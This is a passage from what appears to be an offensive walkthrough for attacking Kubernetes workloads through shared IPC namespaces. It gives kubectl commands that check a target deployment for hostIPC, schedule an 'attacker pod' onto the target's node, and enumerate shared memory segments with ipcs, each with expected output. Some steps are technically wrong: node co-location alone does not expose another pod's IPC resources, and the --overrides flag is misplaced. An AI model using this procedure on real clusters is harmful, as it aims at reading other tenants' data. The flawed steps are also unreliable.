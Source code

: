     Expected Output 3 (Potentially Vulnerable):
    If the target is within a Deployment, ReplicaSet, or other controller, it might be set there. Check the controller.

    ```bash
    kubectl get deployment target-deployment -o yaml | grep hostIPC
    ```

    If `hostIPC: true` is present, the target pod is sharing the host's IPC namespace, and the attack is greatly simplified.  Proceed to Phase 2.

6.  **Place attacker pod on the same node as the target pod (if `hostIPC: false`):**

    If `hostIPC: true` is *not* set for the target pod, we need to ensure our attacker pod is running on the same node to potentially access its IPC namespace (even if isolated). This is accomplished using node selectors or node affinity. Replace `worker-node` with the actual node name obtained in step 4.  First delete the existing attacker pod.

    ```bash
    kubectl delete pod attacker-pod
    ```

    Then, deploy a new attacker pod with a node selector:

    ```bash
    kubectl run attacker-pod --image=ubuntu:latest --command -- sleep infinity --overrides='{"spec":{"nodeSelector":{"kubernetes.io/hostname":"worker-node"}}}'
    ```

    This creates a new pod with a node selector that forces it to run on the same node as the target pod. Re-run steps 2 and 3.
    Expected output:
    ```
    pod/attacker-pod created
    ```

**Phase 2: Identifying and Exploiting IPC Resources**

1.  **List IPC resources within the attacker pod (and therefore, on the same node and in the same hostIPC if it is enabled):**

    ```bash
    ipcs -a
    ```

    This command lists all IPC resources (shared memory segments, message queues, semaphores) on the system.  Because of `hostIPC: true`, or the node selector, this will include resources created by *any* pod running on that node and using the shared host's IPC namespace.

    Expected output: A table showing the IDs, owners, permissions, and sizes of shared memory segments, message queues, and semaphores. The output will vary depending on the processes running on the node.  Look for resources owned by the same user as the target process (if known), or resources with unusual permissions or sizes.  Pay attention to the key values.
    ```
    ------ Shared Memory Segments --------
    key        shmid      owner      perms      bytes      nattch     status
    0x00000000 0          root       666        4096       1
    0x00000000 32768      message    666        131072     1
    0xdeadbeef 65536      target_user 600        8388608    1
